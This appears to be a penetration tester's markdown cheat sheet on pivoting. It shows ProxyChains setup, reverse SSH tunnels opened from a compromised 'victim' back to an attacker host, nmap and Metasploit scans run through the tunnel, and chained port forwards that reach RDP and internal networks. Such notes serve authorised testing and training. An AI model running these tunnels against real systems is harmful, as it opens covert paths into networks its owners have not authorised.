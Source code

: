 # Pivoting

## Setting up ProxyChains
##### Allows you to run commands from your kali machine across a tunnel from your victim to other machines the victim is logically connected to

#### Greater than OpenSSH 7.6

If attacking a victim running OpenSSH version lower than 7.6, your process will be different. Older versions don't support -R and have to use a two-way proxy with -D

TODO: Figure out this process

##### On Attacker Box

Open /etc/proxychains4.conf. 

Comment strictchain and uncomment dynamicchain. Uncomment quitemode. Comment proxydns. Then change the default config at the bottom from socks4 127.0.0.1 9080 to socks5 and whatever port you want to use.

Note: For RDP, make sure xclip is installed.

##### Make sure that SSH is listening on Attacker Box

```
Sudo systemctl start ssh.service                                                                                  
```
##### If running over the internet, make sure port forwarding is open and pointing your external port to your internal attacker box interface


##### On Victim Box

```
ssh -N -f -R 127.0.0.1:9080 attacker_username@attacker_IP -p unique_pivot_port                                                                                                  
```

This only requires an ssh client on the victim machine which is extremely common. Only other thing required it to start ssh on your attacker box, as well as a port forwarding rule if it's going over the internet. 

##### On Attacker Box

```
Sudo proxychains nmap --top-ports=20 -sT -sV -sC  -v --open  -Pn IP_Address
Sudo proxychains nmap -iL scope -F -sT -v -Pn | tee fast_scan
```

You can run wrap almost any tool inside of proxychains to force it through the ssh tunnel, including things like metasploit/msfconsole. Extremely useful to utilize proxy 'fun' even if your meta module/other tool doesn't support proxy configuration.

##### Wrapping Metasploit inside of Proxychains

```
sudo proxychains msfconsole
```

This prevents you from having to setup proxies within each module in meta. Some modules don't support proxies so just another layer of difficulty that proxychains helps us avoid.

## Proxy Individual Port like RDP from Victim Back to Host 
#### Allows you to hit individual port that is open on the victim machine like RDP/VNC after you've owned the machine via an exploit

##### On Target

```
ssh -R 33389:localhost:3389 $Username@$Proxy_IP -p $Proxy_Port
```

##### On Proxy

```
ssh -R 4545:locahost:33389 $Username@$Jumpbox_Hostname -p $Jumpbox_Port
```

##### On Jumpbox

```
sudo systemctl start ssh
```

##### Local Kali

```
ssh -L 3389:localhost:4545 $Username@$Jumpbox_Hostname -p $Jumpbox_Port

##### On Host

```
rdp:localhost:3389
```
## Proxy All Traffic Through Victim (Requires opening SSH as a Service on the victim on 127.0.0.1 and known local ssh credentials)

##### On Victim

```
ssh -D 1080 -N -f $local_user@127.0.0.1
ssh -R 10000:localhost:1080 $Username@$Proxy_IP -p $Proxy_Port
```

##### On Proxy

```
sudo systemctl start ssh
```

##### On Jumpbox

```
ssh -L 8887:localhost:10000 $Username@Proxy_IP -p $Proxy_Port
```

##### On Host

```
ssh -L 8887:localhost:8887 $Username@Local_Kali
```

##### If Running Burp Suite

Point burp suite SOCKS5 proxy to 8887 in Burp Network Settings
Point foxyproxy settings to 8080 HTTPS

Should then be able to hit any target on the internal network of your victim directly in proxy browser

## Pivot through a victim without opening a local port
#### (in cases when you don't have access to ssh server)(have to change your target IP when interacting with other internal targets!)

##### On Victim (will have to exit ssh connection to change targets!)

```
ssh -R 10000:$TARGET_IP:$TARGET_PORT $Username@$Proxy_IP
```

##### On Proxy/VPS

```
sudo systemctl start ssh.
```

##### On Jumpbox

```
ssh -L 8887:localhost:10000 $Username@$Proxy_IP
```

##### On Host

```
ssh -L 8887:localhost:8887 $Username@$Jumpbox_IP
```

If Running Burp suite (alernative to above)
Point Burp Suite SOCKS5 proxy to 8887 in Burp Network Settings
Point foxyproxy settings to 8080 HTTPS
